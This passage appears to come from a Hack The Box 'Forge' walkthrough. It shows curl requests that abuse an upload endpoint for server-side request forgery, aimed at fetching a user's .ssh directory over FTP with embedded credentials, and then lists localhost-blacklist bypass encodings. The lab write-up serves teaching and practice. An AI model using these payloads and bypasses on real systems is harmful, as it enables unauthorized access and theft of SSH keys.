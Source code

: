     url=http%3A%2F%2Fadmin.forge.htb%2Fupload%3Fu%3Dftp%3A%2F%2Fuser%3Aheightofsecurity123%21%40127.0.0.1%2F.ssh%2F&remote=1



I'll work with that as a `curl` request, piping into `grep` to quickly
see if it's triggered the blacklist:



    oxdf@hacky$ curl -s -d 'url=http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/&remote=1' http://forge.htb/upload | grep blacklisted
                <strong>URL contains a blacklisted address!</strong>



My first theory is that "admin" might be triggering it. I know I need to
start with "http://" or it will return "Invalid Protocol". So I'll try
`http://admin` to see if it triggers. It doesn't, but
`http://admin.forge.htb` does:



    oxdf@hacky$ curl -s -d 'url=http://admin' -d 'remote=1' http://forge.htb/upload | grep blacklisted
    oxdf@hacky$ curl -s -d 'url=http://admin.forge.htb' -d 'remote=1' http://forge.htb/upload | grep blacklisted
                <strong>URL contains a blacklisted address!</strong>



In fact, just "forge.htb" seem to trigger it:



    oxdf@hacky$ curl -s -d 'url=http://forge.htb&remote=1' http://forge.htb/upload | grep blacklisted
                <strong>URL contains a blacklisted address!</strong>



Similar steps show that "127.0.0.1" and "0.0.0.0" are also blocked.

#### Bypassing

I came up with a short list of potential bypasses, as well as the three
known blocked terms:



    forge.htb
    fOrge.htb
    fOrge
    forge.HTB
    127.0.0.1
    127.0.0.2
    127.1
    0177.0.0.01
    0x7f.0.0.0x1
    0.0.0.0
    0
    user:heightofsecurity123!@
    localhost
    loCalhost
